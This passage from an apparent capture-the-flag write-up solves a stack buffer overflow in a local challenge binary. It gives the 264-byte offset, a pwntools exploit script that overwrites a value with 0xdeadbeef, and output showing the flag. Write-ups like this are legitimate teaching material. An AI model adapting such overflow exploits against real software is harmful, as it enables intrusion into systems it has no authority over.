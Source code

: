```python
>>> cyclic_find(0x6361617263616171)
264
```

- So, our payload becomes `b'a'*264 + p64(0xdeadbeef)`

- Next I wrote a python script to use the payload

> _soln.py_
```python
from pwn import *

elf = ELF("./chall")
p = elf.process()

offset = 264

print(p.recvuntil("see?\n"))

payload = [
    b"a"*offset,
    p64(0xdeadbeef),
]

payload = b"".join(payload)
p.sendline(payload)

p.interactive()
```

- Next I created a `flag.txt`, made the execution of `chall` possible and ran it to test my exploit

```bash
$ chmod +x chall
$ touch flag.txt
$ echo "SUCCESS" > flag.txt
```

```bash
$ python3 soln.py
[*] 'chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process 'chall': pid xxxxx
...
""\nMy room is so cluttered...\nWhat do you see?\n'
[*] Switching to interactive mode
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
SUCCESS
[*] Got EOF while reading in interactive
$
```
